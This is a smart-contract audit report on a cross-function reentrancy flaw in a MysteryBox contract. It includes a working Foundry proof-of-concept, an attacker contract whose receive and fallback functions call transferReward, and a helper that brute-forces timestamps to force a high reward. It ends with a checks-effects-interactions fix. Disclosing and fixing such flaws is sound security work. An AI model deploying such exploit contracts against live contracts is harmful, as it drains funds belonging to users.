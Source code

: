 ### Cross function reentrancy attack in `MysteryBox::claimSingleReward` and `MysteryBox::transferReward` allows User/Player with non zero value reward to withdraw and transfer the reward

## Summary

The `MysteryBox::claimSingleReward` function does not adhere to the [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) principle, allowing any user with a non-zero value reward to potentially drain the contract balance. The function first makes an external call to `msg.sender` and only updates the `rewardsOwned` array afterward.

## Vulnerability Details

In the `claimSingleReward` function, after validating the reward's existence, an external call is made to transfer the reward value to the user. This design can be exploited by attackers to copy their rewards to an arbitrary address through a `fallback` or `receive` function.

```javascript
function claimSingleReward(uint256 _index) public {
    require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
    uint256 value = rewardsOwned[msg.sender][_index].value;
    require(value > 0, "No reward to claim");

    (bool success,) = payable(msg.sender).call{value: value}("");
    require(success, "Transfer failed");

    delete rewardsOwned[msg.sender][_index];
}
```

### Proof of Concept

1. Users buy boxes.
2. An attacker sets up a contract with a `fallback` function that invokes `MysteryBox::transferReward`.
3. The attacker buys a box, opens it, and receives a non-zero reward (which can be guaranteed by manipulating `MysteryBox::openBox`).
4. The attacker calls `MysteryBox::transferReward` from their contract, duplicating the reward to another address while withdrawing the reward value.

### Proof of Code

Add the following code to the `TestMysteryBoxTest.t.sol` file within the `MysteryBoxTest` contract:

```Solidity
// @notice Function to calculate which block timestamp to open a box on to guarantee a non-zero value reward
// @param addr: address to get the reward
function calculateWinTimestampValue(address addr) public view returns (uint256) {
    uint256 value;
    uint256 winTime = block.timestamp;
            
    do {
        winTime++;
        value = uint256(keccak256(abi.encodePacked(winTime, addr))) % 100;            
    } while (value < 95);

    return winTime;
}

function testCrossReentrancy() public {
    address receiver = makeAddr("receiver");
    CrossReentrancyAttackerSender attacker = new CrossReentrancyAttackerSender(address(mysteryBox), receiver);
    uint256 boxPrice = mysteryBox.boxPrice(); 
    vm.deal(address(attacker), boxPrice);
    uint256 winningTimestamp = calculateWinTimestampValue(address(attacker));
    vm.warp(winningTimestamp);
    uint256 startingContractBalance = address(mysteryBox).balance;
    attacker.attack(); 

    uint256 endingAttackerBalance = address(attacker).balance;
    uint256 endingContractBalance = address(mysteryBox).balance;
    uint256 rewardValue = attacker.rewardValue(); 

    uint256 totalMysteryBoxValue = startingContractBalance + boxPrice;

    vm.prank(receiver);
    uint256 receiverRewards = mysteryBox.getRewards().length;

    assertEq(endingAttackerBalance, rewardValue);
    assertEq(endingContractBalance, totalMysteryBoxValue - rewardValue);
    assertEq(receiverRewards, 1);
}
```

Add the following code to the `TestMysteryBoxTest.t.sol` file:

```Solidity
contract CrossReentrancyAttackerSender {
    MysteryBox public mysteryBox;
    address toAddr;
    uint256 public rewardValue;
    uint256 public boxPrice;
    
    constructor (address _mysteryBox, address _toAddr) {
        mysteryBox = MysteryBox(_mysteryBox);
        boxPrice = mysteryBox.boxPrice();
        toAddr = _toAddr;
    }

    function attack() external payable { 
        mysteryBox.buyBox{value: boxPrice}();
        mysteryBox.openBox();
        rewardValue = mysteryBox.getRewards()[0].value;
        mysteryBox.claimSingleReward(0);
    }

    receive() external payable {
        mysteryBox.transferReward(toAddr, 0);      
    }

    fallback() external payable {
        mysteryBox.transferReward(toAddr, 0); 
    }
}
```

An attacker with a non-zero reward, such as a "Bronze Coin," could manipulate the contract to call `MysteryBox::transferReward`, allowing them to duplicate rewards.

## Impact

The vulnerability allows an attacker to copy a non-zero reward to an arbitrary address and withdraw it, resulting in potential financial loss for the contract.

## Tools Used
- VSCodium
- Slither

## Recommendations

To mitigate this issue, the `MysteryBox::claimSingleReward` function should update the `rewardsOwned` array before making any external calls, as illustrated below:

```diff
function claimSingleReward(uint256 _index) public {
    require(_index <= rewardsOwned[msg.sender].length, "Invalid index");
    uint256 value = rewardsOwned[msg.sender][_index].value;
    require(value > 0, "No reward to claim");

+   delete rewardsOwned[msg.sender][_index];
    (bool success,) = payable(msg.sender).call{value: value}("");
    require(success, "Transfer failed");

-   delete rewardsOwned[msg.sender][_index];
}
```
